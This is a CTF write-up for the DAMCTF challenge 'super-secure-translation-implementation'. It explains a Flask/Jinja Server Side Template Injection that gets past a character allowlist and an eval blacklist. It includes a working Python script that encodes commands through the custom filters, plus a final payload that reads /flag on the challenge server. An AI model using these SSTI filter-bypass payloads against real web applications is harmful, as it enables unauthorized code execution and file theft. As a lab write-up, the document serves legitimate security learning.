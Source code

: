 ```yaml
---
layout: post
title:  "[DAMCTF] super-secure-translation-implementation"
date:   "2021-11-07"
categories: [Web, Golf]
author: voidPtr
app_img: /assets/posts_images/super-secure-translation-implementation/app.PNG
check_img: /assets/posts_images/super-secure-translation-implementation/check.PNG
filters_img: /assets/posts_images/super-secure-translation-implementation/filters.PNG
payloadBase_img: /assets/posts_images/super-secure-translation-implementation/payloadBase.PNG
payloadFilter_img: /assets/posts_images/super-secure-translation-implementation/payloadFilter.PNG
---
```


The website show us the source code running on the site.  
<figure>
<img src="{{ page.app_img }}" alt="app.py">
</figure>

As we can see, it is possible to request any path as long as it exists and is in the same folder of app.py. 
Moreover, there's a path on the site, "/secure_translate/", where we can pass an argument "payload" and the server will extend the base code with our input. The perfet setup for a Server Side Template Injection.  
The problem is that our input is sanitized with a function "detect_remove_hacks". Looking at the import of this page, that function is in the file check.py. We can just request its source code in the path with "/check.py".  
<figure>
<img src="{{ page.check_img }}" alt="check.py">
</figure>

Here we can see that our input is restricted to a very limited set of characters, and to a given max lenght calculated from an external library ("rctf", imported in limit.py). An admin later told me that this limit is based on the first solve on th platform: in my case it was 161 chars. Painful.  

We need one more step before starting to build the payload: in app.py, before defining the routes, there are some custom filters added to the server for string manipulation as we can see in the comment above. Let's look at those functions in the file filters.py.
<figure>
<img src="{{ page.filters_img }}" alt="filters.py">
</figure>
There are some useful functions to convert a character in its ascii decimal notation and vice-versa, and a function that evaluates an input if it does not contain words from a blacklist, and if its initials 4 characters are not "open" or "eval".

First things first, let's try if we can make a simple template injection. Since we know we are on flask, let's try something that is not forbidden by the detect_remove_hacks() function, for example {{6*6}}.
<figure>
<img src="{{ page.payloadBase_img }}" alt="payloadBase">
</figure>

Perfect, now we are sure that there's a way of making the server do what we want. The question is, how? We have only a bunch of chars to use, and there's not a payload using only that chars. My first answer was to try using ord() and chr() functions (python built-ins). But for some reason the server returns 500 if we try to use built-in functions inside the payload. So it came to my mind the custom filters implemented by filters.py. We can chain them to obtain another character starting from one of the allowed chars. For example, to obtain "a" we could do something like {{("b"|order-1)|ch}}:
<figure>
<img src="{{ page.payloadFilter_img }}" alt="payloadFilter">
</figure>

Now that we know how to obtain an arbitrary character and that we can chain filters, my guess was to craft a payload and pass it to the e() function to evaluate it.
The problem now is the max lenght of the payload of 161 chars.
I wrote a python script to automate the translation of a char to its equivalent in the order|ch chain, and spent many time optimizing it to reduce the number of characters used. This was painful.  

Finally I came up with a payload, but it was of something like 174 chars. The ultimate "golf" of my code to reduce its length was to substitute the order part with its equivalent in number operations, using only the digits in the whitelist (otherwise we should translate them).
For example {{('l'|order+4)|ch}} == {{(111+1)|ch}} == "p".
I've done this manually because the time was almost finished and I didn't had time to automate it, but here's the script to obtain the payload until this last translation.
```python
import requests

TARGET_URL = 'https://super-secure-translation-implementation.chals.damctf.xyz'

previousNotEncoded = True

def findBestEncoding(c, l):
    resList = []
    for allowed in l:
        res = ""
        toAdd = ""
        sign = "+"
        
        toAdd = str(ord(c) - ord(allowed))
        if int(toAdd) < 0:
            sign = "-"
        if toAdd not in l:
            i = int(toAdd)
            if i == 2:
                toAdd = "1"+sign+"1"
            elif i == 3:
                tempSign = "-"
                if sign == "-":
                    tempSign = "+"
                toAdd = "4"+tempSign+"1"
            elif i == 5:
                toAdd = "4"+sign+"1"
            elif i == 7:
                toAdd = "1"+sign+"6"
            elif i == 8:
                toAdd = "4"+sign+"4"
            elif i == 9:
                toAdd = "4"+sign+"4"+sign+"1"
            else:
                toAdd1 = "1" + (sign+"1") * (abs(i)-1)
                atLeast4 = i // 4
                rest4 = i % 4
                toAdd4 = "4" + (sign+"4") * (abs(atLeast4)-1) + (sign+"1") * rest4
                atLeast6 = i // 6
                rest6 = i % 6
                toAdd6 = "6" + (sign+"6") * (abs(atLeast6)-1) + (sign+"1") * rest6
                if len(toAdd4) > len(toAdd6):
                    toAdd = toAdd6
                else:
                    toAdd = toAdd4
                if len(toAdd1) < len(toAdd):
                    toAdd = toAdd1
        res += "('"+allowed+"'|order"+ sign+toAdd+")|ch"
        resList.append(res)
    shortest = min(resList, key=len)
    return shortest


def codeStringEnhanced(s):
    global previousNotEncoded
    allowlist = [
        '"', "'", '(', ')', '{', '|', '}', '*', '+', '-', '1', '4', '6', 'b', 'c', 'd', 'e', 'h', 'l', 'o', 'r', 'u'
    ]
    res = ""
    for c in s:
        if res != "":
            if not previousNotEncoded:
                res += "+"
        if c in allowlist:
            if res == "":
                res += "'"
            if previousNotEncoded:
                res += c
            else:
                res += "'"+c
            previousNotEncoded = True
        else:
            if previousNotEncoded and res != "":
                res += "'+"
            res += findBestEncoding(c, allowlist)
            previousNotEncoded = False
    if previousNotEncoded:
        res += "'"
    res += ")"
    return res


# cmd = 'forbidlist[5]'
# cmd = '"".__class\__'
# cmd = '(eval("globals()[4]"))'
# cmd = '["b","d"]|map("u")'
# cmd = '''(eval("y('id')")'''
# cmd = 'globals()'
cmd = '(open("/flag").read())'
code = codeStringEnhanced(cmd)
payload = "{{"+code+"}}"
payload = payload.replace("'''", '"\'"')

# payloadF1 = "{{(" + code + "|e}}"
codeManual = ''''(o'+(66+44+1+1)|ch+'e'+(66+44)|ch+'("'+(44+1+1+1)|ch+(66+6*6)|ch+'l'+(4*4*6+1)|ch+(66+6*6+1)|ch+'")'+(46)|ch+'re'+(4*4*6+1)|ch+'d())')'''
payloadF1 = "{{(" + codeManual + "|e}}"
payloadF = payloadF1.replace("+", "%2B") # need this to avoid html/url errors
print(payloadF)
print(f"PAYLOAD LENGHT: {len(payloadF1)}")


r = requests.post(TARGET_URL+'/secure_translate/?payload='+payloadF)
print(f"RETURN CODE: {r.status_code}")

if(r.status_code == 200):
    text = r.text.split("<code>")[1].split("</code>")[0].split("<p>")[1].split("</p>")[0]
    text = text.strip()
    print("RESULT:")
    print(text)
else:
    print(r.text)
```
In the code above there are some commands I tried along the way ("cmd" variable).
The final payload is (open("/flag").read()). The external parenthesis are there to avoid the control in the e() filter. Its translations is:
```text
{{('(o'%2B(66%2B44%2B1%2B1)|ch%2B'e'%2B(66%2B44)|ch%2B'("'%2B(44%2B1%2B1%2B1)|ch%2B(66%2B6*6)|ch%2B'l'%2B(4*4*6%2B1)|ch%2B(66%2B6*6%2B1)|ch%2B'")'%2B(46)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e}}
```
Its lenght is of 142 chars ("%2B" is translated in "+", so it is counted as a single char). Probably there are shorter payloads, but this has done the trick for me. 
Sending it to the server will give us our flag.

```
dam{p4infu1_all0wl1st_w3ll_don3}
```

